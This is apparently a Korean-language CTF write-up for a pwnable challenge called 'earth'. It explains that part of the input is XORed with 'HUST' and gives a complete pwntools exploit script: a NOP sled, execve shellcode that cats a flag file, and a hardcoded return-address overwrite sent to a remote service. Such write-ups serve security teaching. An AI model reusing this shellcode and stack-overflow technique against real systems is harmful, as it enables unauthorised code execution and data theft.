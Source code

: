 ## No.19 Pwnable earth[100]

**점수:** 100

**분야:** Pwnable

**제목:** earth

**Description:**

> Capture the flag!
> 
> nc 223.194.105.182 22900
> 
> Download : https://goo.gl/WLNg0r

주어진 서비스에 접속하면 취약한 바이너리와 직접 통신하고 있지 않는 것을 확인할 수 있다.

기본적인 nop sled + shellcode로 공격을 시도할 경우 자꾸 segfault가 발생하여 조사를 하던 중 

입력한 값의 8~12번째 값에 ‘HUST’로 XOR 연산 후 보내는 것을 확인하였다.

이를 고려하여 4바이트를 수정한 후 공격한다.

직접 쉘을 따는 쉘코드로는 통신이 불가하여 /home/earth/flag를 읽어주는 쉘코드를 이용했다.

```python
from pwn import *
 
r = remote('223.194.105.182', 22900)
 
r.recvuntil(']\n')
 
# '\x90\x90\x90\x90' ^ 'HUST' == '\xD8\xC5\xC3\xC4'
payload = '\x90' * 8 + '\xD8\xC5\xC3\xC4' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x66\x6c\x61\x67\x68\x72\x74\x68\x2f\x68\x65\x2f\x65\x61\x68\x2f\x68\x6f\x6d\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'
payload += '\x90' * (112 - len(payload))
payload += p32(0xbffff46c)
 
r.sendline(payload)
r.interactive()
```
